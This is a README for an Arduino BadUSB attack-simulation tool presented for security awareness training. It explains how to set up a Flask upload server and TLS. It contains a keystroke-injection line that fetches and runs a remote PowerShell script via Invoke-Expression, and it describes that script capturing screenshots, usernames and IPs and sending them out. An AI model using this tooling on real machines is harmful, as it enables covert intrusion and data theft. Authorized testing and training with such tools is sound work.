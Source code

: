 # Rubber Ducky-like Attack Simulation Test/Tool

This tool allows you to capture a screenshot, gather system information, and send it to a Microsoft Teams channel using a webhook. It consists of two parts: an Arduino Ducky Script and a PowerShell script.

> :warning: **Disclaimer**
    This tool is intended for educational and testing purposes only. It is designed to simulate a USB attack for security engineering and awareness training. Use responsibly and only on systems you are authorized to test.

## Materials

- [HiLetgo BadUsb Beetle Bad USB Microcontroller ATMEGA32U4](https://www.amazon.com/gp/product/B07W5K9YHP/ref=ppx_yo_dt_b_asin_title_o01_s00?ie=UTF8&psc=1) (Amazon)

## Software Used

- [Arduino IDE](https://www.arduino.cc/en/guide/linux)
- [Ducky Script to Arduino Converter](https://elrock.gitlab.io/ducky2arduino/)


## Prerequisites

- An Arduino device with an ATMEGA32U4 Microcontroller.
- An internet-connected computer running Windows with PowerShell.
- Access to a Microsoft Teams channel with a configured incoming webhook.
- A web server where you can host the PowerShell script.
  
## Installation

#### 1. Install Python and pip:

```bash
sudo apt update
sudo apt install python3
sudo apt install python3-pip
```
#### 2. Clone or download this project to your computer.
```bash
git clone https://github.com/remoteicu/DuckDuino.git
```

#### 3. Open a terminal and navigate to the project directory.
##### Directory Structure
```bash
- app.py                 # Python script to start the web server that listens for a request
- uploads/               # Directory for uploaded files and the PowerShell script
    - run.ps1
- requirements.txt       # Python package dependencies
```
#### 4. Create a virtual environment (optional but recommended):
```bash
python -m venv venv
```
#### 5. Activate the virtual environment:
On macOS and Linux:
```bash
source venv/bin/activate
```
On Windows (PowerShell):
```powershell
.\venv\Scripts\Activate
```
#### 6. Install the required Python packages:

```bash
pip install -r requirements.txt
```
## Configuration

### Arduino Script

1. Copy the provided [Arduino Script](duino.ino) to your Arduino device using Arduino IDE.
2. Modify the delays and keypresses in the Script as needed for your setup.
> **_NOTE:_**  Make sure to select `Arduino Leonardo` under tools > board > boards manager, as well as select the correct COM Port.

### PowerShell Script
The script will:
   - Capture a screenshot of the target computer.
   - Gather system information (computer name, username, IP address).
   - Upload the screenshot and information to the web server.
   - Send a message with the screenshot link to the specified Microsoft Teams channel using the webhook.

> **_NOTE:_** Make sure to update the `$UploadUrl` and `$teamsWebhookUrl` variables in the PowerShell script to point to your server's upload endpoint and your teams webhook url.
  
## Usage
Run app.py:
```bash
python app.py
```
## Extra Options
1. Point your domain DNS to your remote server IP
2. Get an ssl certificate from letsencrypt by utalizing [certbot](https://certbot.eff.org/)
Install Certbot
```bash
sudo snap install --classic certbot
```
Prepare Certbot Command
```bash
sudo ln -s /snap/bin/certbot /usr/bin/certbot
```
Install the Cert
```bash
    sudo certbot certonly --standalone
```
3. Fill out the prompts with your domain information
4. Add the following to `app.py`
```python
from flask import Flask, request, jsonify, send_from_directory
import os
import json
import base64
from datetime import datetime
import pytz
from flask_sslify import SSLify

app = Flask(__name__, static_url_path='/uploads', static_folder='uploads')
sslify = SSLify(app)

# ... (Rest of your code remains the same)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443, ssl_context=('/etc/letsencrypt/live/{{your-domain}}/fullchain.pem', '/etc/letsencrypt/live/{{your-domain}}/privkey.pem'))

```
5. Update your arduino script to use the FQDN of your server
```bash
# ...

Keyboard.print("$scriptUrl = 'https://{{your-domain}}/uploads/run.ps1'; Invoke-Expression -Command (Invoke-RestMethod -Uri $scriptUrl)");

# ... (Rest of your code remains the same)
```
7. Setup a Start and Stop shell script and put them in the root directory
Start.sh
```bash
#!/bin/bash

nohup python app.py > /dev/null 2>&1 &

echo "Flask app started with PID: $!"
```
Stop.sh
```bash
#!/bin/bash

pid=$(pgrep -f "python app.py")
if [ -n "$pid" ]; then
  echo "Stopping Flask app (PID: $pid)..."
  kill "$pid"
  echo "Flask app stopped."
else
  echo "Flask app is not running."
fi
```


## Troubleshooting

- If you encounter issues, ensure that your Arduino device is properly configured and connected.
- Check the PowerShell script for any errors and make sure it is hosted on a reachable server.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
